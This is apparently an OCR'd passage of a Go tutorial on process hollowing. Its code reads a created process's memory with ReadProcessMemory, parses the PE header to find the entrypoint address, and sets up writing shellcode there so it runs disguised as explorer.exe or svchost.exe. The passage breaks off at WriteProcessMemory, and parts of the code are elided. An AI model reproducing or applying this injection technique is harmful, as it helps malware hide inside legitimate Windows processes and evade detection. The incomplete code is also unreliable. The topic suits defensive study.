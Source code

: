```go
  ReadProcessMemory.Call(uintptr(pi.Process), imageBaseAddress, uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))

  imageBaseValue := binary.LittleEndian.Uint64(addressBuffer)

  ...
}
```

After this, we call `ReadProcessMemory` again to finally find the entrypoint address, where we will write our shellcode in.

```go
func ProcessHollowing(shellcode []byte, cmd string) {
  ...

  addressBuffer = make([]byte, 0x200)

/*

BOOL ReadProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPCVOID lpBaseAddress,
  [out] LPVOID  lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesRead
);

*/

  r1, _, err := ReadProcessMemory.Call(uintptr(pi.Process), uintptr(imageBaseValue), uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))
  if r1 == 0 {
    return err
  }

  lfaNewPos := addressBuffer[0x3c : 0x3c+0x4]
  lfanew := binary.LittleEndian.Uint32(lfaNewPos)
  entrypointOffset := lfanew + 0x28
  entrypointOffsetPos := addressBuffer[entrypointOffset : entrypointOffset+0x4]
  entrypointRVA := binary.LittleEndian.Uint32(entrypointOffsetPos)
  entrypointAddress := imageBaseValue + uint64(entrypointRVA)

  ...
}
```

And finally, we write our shellcode into the entrypoint so that it gets executed under the process we have created (e.g. explorer.exe or svchost.exe)

```go
func ProcessHollowing(shellcode []byte, cmd string) error {
  ...

/*

BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);

*/
```